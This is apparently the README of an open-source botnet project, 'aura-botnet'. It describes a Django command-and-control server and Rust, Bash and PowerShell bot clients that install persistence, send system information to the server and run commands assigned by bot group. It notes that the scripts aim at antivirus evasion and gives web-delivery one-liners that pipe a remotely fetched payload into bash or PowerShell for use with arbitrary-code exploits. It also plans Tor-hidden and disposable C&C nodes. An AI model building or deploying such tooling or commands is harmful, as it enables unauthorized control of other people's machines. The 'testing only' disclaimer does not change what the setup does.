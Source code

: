 # aura-botnet

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>

C&C Server
---
The botnet's central C&C server utilizes Django as the
backend because of its portability. It is currently configured with a simple
setup for mysql but can easily be configured for sqlite or postgresql thanks to
Django. The current configuration for the database can be changed in the
*settings.py* file under django-server/aura. You would, of course, need to setup
 the database on your machine. The admin console located at /admin can be accessed
 after setting up a superuser with `manage.py createsuperuser`.

Bot Clients
---
The primary clients are written in Rust. Alternate clients are written in Bash
and Powershell for simplicity and increased chance of AV evasion. The script
simply needs to be run in the same folder as the other components or installed
via web delivery. It will then create a file containing random data which will
then be hashed each time the client runs to authenticate with the C&C server.
It will then install all the files and initialize the system service or task.
Lastly, system information is sent to the C&C server to register the new bot
and everything will installed with the privileges of the current user.

The clients periodically communicate with a specified server using POST requests
to receive a command. Commands can be configured on the C&C server for
bot groups that are defined by operating system and user privilege. This is
specified in django-server/groups.json. You can also assign commands to
individual bots and set default commands. Each command can be given a start
time and end time. These can easily be managed through the Django shell or admin
console located at http://your-django-server:portnumber/admin

Database
---

Usage
---

Client Web Delivery
---
The *static* folder contains files to be served by a web server -- preferably
an nginx server running on a different port or host as your Django server --
It contains the packaged payloads and scripts that can be easily executed. The
simplicity of it makes it easy to integrate with exploits that run arbitrary
code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/ | bash
```
or the following in Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/linux/ | powershell
```

Misc.
---
Because this is for testing purposes, the C&C server needs to be
hard-coded into client and web delivery files. It is currently set to
localhost on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered. I don't
wish to spend money for domains on a small project. I do hope to implement a system
that can turn certain bots into "nodes", or disposable command and control servers,
at some point in time.

The code is also not obfuscated as this would defeat the purpose of being a botnet
for testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

<b>Future Feature Considerations</b>
- Implement compatibility with running C&C as a hidden Tor service
- Design system to make certain bots into node servers that act as disposable
command and control servers
- Create clients for mobile devices
